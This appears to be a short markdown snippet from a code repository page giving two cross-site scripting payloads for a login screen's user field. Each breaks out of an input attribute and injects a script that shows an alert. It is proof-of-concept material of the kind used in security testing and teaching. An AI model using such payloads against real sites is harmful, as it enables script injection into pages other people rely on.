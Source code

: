 ## This payload may be applied to the user field in the login screen
```html
    " type="text" > <script> alert("hi");</script> <input style="none
```
This payload may **insert a textbox** in the output page
```html
    " type="text" > <script>  alert("hi") ; </script> <input type="hidden
```


